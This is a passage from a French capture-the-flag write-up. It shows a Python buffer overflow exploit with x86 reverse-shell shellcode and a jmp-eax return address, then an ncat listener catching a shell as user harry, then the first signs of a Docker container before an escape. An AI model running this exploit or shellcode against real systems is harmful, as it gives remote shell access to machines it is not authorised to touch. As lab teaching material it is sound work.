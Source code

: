 ```python
        b"\xcd\x80"              # int $0x80
        b"\x49"                  # dec %ecx
        b"\x79\xf9"              # jns <_dup2loop>
        b"\xb0\x0b"              # mov $0xb,%al
        b"\x52"                  # push %edx
        b"\x68\x2f\x2f\x73\x68"  # push $0x68732f2f
        b"\x68\x2f\x62\x69\x6e"  # push $0x6e69622f
        b"\x89\xe3"              # mov %esp,%ebx
        b"\x52"                  # push %edx
        b"\x53"                  # push %ebx
        b"\xeb\xdf"              # jmp <_doint>
)

PADDING = b"\x90" * (112 - len(SHELLCODE))
JMP_EAX = 0x08054ad6

buffer = SHELLCODE + PADDING + pack("I", JMP_EAX)

sock = socket.socket()
sock.connect((IP, 9898))
sock.recv(2048)  # Get the banner
sock.send(buffer)
print("Payload sent")

```

On aura préalablement lancé un Ncat :  

```bash
$ ncat -l -p 31337 -v
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 192.168.56.3.
Ncat: Connection from 192.168.56.3:54556.
id
uid=1000(harry) gid=1000(harry) groups=1000(harry)
```

Escape the container
--------------------

On remarque vite un fichier typique d'un environnement conteneurisé à la racine :  

```plain
-rwxr-xr-x    1 root     root             0 Apr 24  2021 .dockerenv
```

Il y a d'autres signes distinctifs comme cette adresse IP commençant par 172 :  

```plain
4: eth0@if5:  mtu 1500 qdisc noqueue state UP 
 link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff
 inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
 valid\_lft forever preferred\_lft forever
```
